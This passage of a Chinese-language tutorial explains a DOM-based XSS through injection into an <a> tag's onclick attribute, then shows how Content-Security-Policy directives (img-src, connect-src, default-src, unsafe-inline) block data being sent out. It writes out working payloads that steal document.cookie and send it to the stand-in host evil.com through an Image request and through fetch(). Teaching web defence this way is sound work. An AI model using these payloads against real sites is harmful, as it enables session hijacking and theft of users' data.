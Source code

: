 但是因为我们是直接写在 a 标签里面的， 所以是可以构造一个基于  dom 的 xss 漏洞的，比如我输入:
```text
jj' onclick="javascript:alert(1);return false;"
```
这时候就会劫持 a 标签的 click 事件，并弹出 `alert 1`

![](10.png)

更严重的一点，就是获取用户的 cookie ，然后传到 hacker 的服务, 可以在点击的时候，将 cookie 传到 hacker 的站点, 比如这样子:
```text
jj' onclick="javascript:var img = new Image();img.src=`https://evil.com/?cookie=${encodeURIComponent(document.cookie)}`;return false;"
```

![](11.png)

然后点击 link 的时候，就会以 img 的方式，将 cookie 抛送到服务器中

![](12.png)

#### 怎么防御
当然最简单的，不想 cookie 可以被 js 读取， 那么只需要将 cookie 设置为 `httponly` 属性即可。 但是 hacker 取不了 cookie 的话，也可以获取其他的数据，比如当前登录的用户名，邮箱等等。

因为本例是通过 img 标签来抛送数据的， 可以在 meta 标签设置 `img-src` 的属性
```text
<meta http-equiv="Content-Security-Policy" content="img-src 'self';">
```
加上这个 img-src 的限制，表示 img 加载只能加载当前域名的图片。这时候如果要通过 img 加载的方式来抛送数据的话，就会报错:
```text
Refused to load the image 'https://evil.com/?cookie=jenkins-timestamper-offset%3D-28800000' because it violates the following Content Security Policy directive: "img-src 'self'".
```
但是 hacker 有很多种方式来抛送数据，不仅仅是 img，还可以用 object， iframe， xhr，fetch 等等, 比如这个直接抛送 xhr 发 fetch 也是可以的，这个就可以绕过 img-src
```text
jj' onclick="javascript:fetch(`https://evil.com/?cookie=${encodeURIComponent(document.cookie)}`);return false;"
```
当然我可以再加这个限制，让 fetch 也不能用
```text
<meta http-equiv="Content-Security-Policy" content="img-src 'self';connect-src 'self'">
```
这时候就会报错了
```text
Refused to connect to 'https://evil.com/?cookie=jenkins-timestamper-offset%3D-28800000' because it violates the following Content Security Policy directive: "connect-src 'self'".
```
但是我还可以用 iframe， script， link 这种方式都可以， 所以如果要禁止你的页面往非法站点抛送请求的话，统一用
```text
<meta http-equiv="Content-Security-Policy" content="default-src 'self'">
```
这样子可以禁止所有的 `xxx-src` 的方式抛送请求, 在没有设置对应白名单的情况下，就没有办法往外读取或者抛送非当前域名的请求。

但是如果这样子的话，页面会有问题，因为对于 `script-src` 来说 ，只设置 self 的话，连内联的 script 都执行不了 (本例有两个内联 js 执行，一个是 script 块，一个 a 标签的 onclick 事件)，所以会报这个错误:
```text
Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-ypamui9krAqgslmkMenqJFLH+qgzHCrdeQRvJ77vI54='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
```
会报这个错，所以我们可以再加上 `unsafe-inline` 表示允许执行 内联的 js （当然也可以用 `hash` 或者 `nonce` 的方式来允许内联 js 执行）
```text
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' 'unsafe-inline'">
```

